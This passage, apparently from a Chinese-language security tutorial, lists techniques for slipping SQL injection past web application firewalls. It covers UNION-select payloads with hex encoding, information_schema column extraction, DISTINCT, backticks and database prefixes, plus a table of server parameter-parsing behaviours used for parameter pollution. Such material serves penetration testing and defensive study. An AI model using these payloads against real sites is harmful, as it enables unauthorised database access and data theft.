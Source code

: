 

### 2.5 引号绕过

```sql
select * from users where id="1" #双引号绕过
select * from users where username=0x61646D696E; # 字符串转换为16进制
select * from users where id=-1 union select 1,2,(select group_concat(column_name)
from information_schema.columns where TABLE_NAME='users' limit 1),4; # 如果开启gpc，整数型也可以用十六进制绕过
```



### 2.6 添加库名绕过

```sql
select * from users where id=-1 union select 1,2,3,4 from users;
select * from users where id=-1 union select 1,2,3,4 from test.users;
```



### 2.7 去重复绕过

在 mysql 查询可以使用 distinct 去除查询的重复值。可以利用这点突破waf 拦截。

```sql
select * from users where id=-1 union distinct select 1,2,3,4 from users;
select * from users where id=-1 union distinct select 1,2,3,version() fromusers;
```



### 2.8 反引号绕过

字段加反引号可以绕过一些WAF拦截。

```sql
select * from users where id=-1 union select 1,2,3,4 from `test.users`;
```



### 2.9 语言特性绕过

在 php 语言中 id=1&id=2 后面的值会自动覆盖前面的值，不同的语言有不同的特性。可以利用这点绕过一些 waf 的拦截。

|               服务器中间件                |          解析结果          |       举例说明       |
| :---------------------------------------: | :------------------------: | :------------------: |
|                ASP.NET/IIS                | 所有出现的参数值用逗号连接 |    color=red,blue    |
|                  ASP/IIS                  |  所有出现的参数用逗号连接  |    color=red,blue    |
|                PHP/Apache                 |    仅最后一次出现参数值    |      color=blue      |
|                 PHP/Zeus                  |    仅最后一次出现参数值    |      color=blue      |
|         JSP,Servlet/Apache Tomcat         |     仅第一次出现参数值     |      color=red       |
| JSP,Servlet/Oracle Application Server 10g |     仅第一次出现参数值     |      color=red       |
|             JSP,Servlet/Jetty             |     仅第一次出现参数值     |      color=red       |
|             IBM Lotus Domino              |    仅最后一次出现参数值    |      color=blue      |
|              IBM HTTP Server              |     仅第一次出现参数值     |      color=red       |
|         mod_perl,libapreq2/Apache         |     仅第一次出现参数值     |      color=red       |
|              Perl CGI/Apache              |     仅第一次出现参数值     |      color=red       |
|          mod_wsgi(Python)/Apache          |     仅第一次出现参数值     |      color=red       |
|                Python/Zope                |         转化为List         | color=['red','blue'] |
